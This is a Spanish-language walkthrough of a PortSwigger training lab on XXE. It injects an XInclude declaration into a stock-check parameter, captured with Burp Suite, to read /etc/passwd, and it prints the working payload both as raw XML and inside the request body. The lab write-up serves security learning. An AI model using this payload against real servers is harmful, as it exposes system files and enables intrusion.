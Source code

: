 ```yaml
---
title: "Exploiting XInclude to retrieve files"
description: "Laboratorio de Portswigger sobre XXE"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE
tags:
  - Portswigger Labs
  - XXE
  - Exploiting XInclude to retrieve files
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que `inserta` la `entrada` del `usuario` dentro de un `documento XML` en el `servidor`, el cual se procesa posteriormente. Dado que podemos controlar todo el `documento XML`, no podemos `definir` un `DTD` para lanzar un ataque `XXE` clásico. Para `resolver` el `laboratorio`, `inyecta` una `declaración XInclude` para `obtener` el `contenido` del archivo `/etc/passwd`

---

## Guía de XXE

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XXE` [https://justice-reaper.github.io/posts/XXE-Guide/](https://justice-reaper.github.io/posts/XXE-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-7/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-7/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se están tramitando dos campos

![](/assets/img/XXE-Injection-Lab-7/image_3.png)

Como no tenemos el control sobre el `documento XML` completo, no podemos `cargar` un `DTD`, sin embargo, podemos usar la función `XInclude` para `cargar contenido`

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

`Enviamos` este `payload`, este importante `probar todos los campos` para saber cual es el `vulnerable`

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

`Obtenemos` la `respuesta` del `servidor`, la cual nos `muestra` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-7/image_4.png)
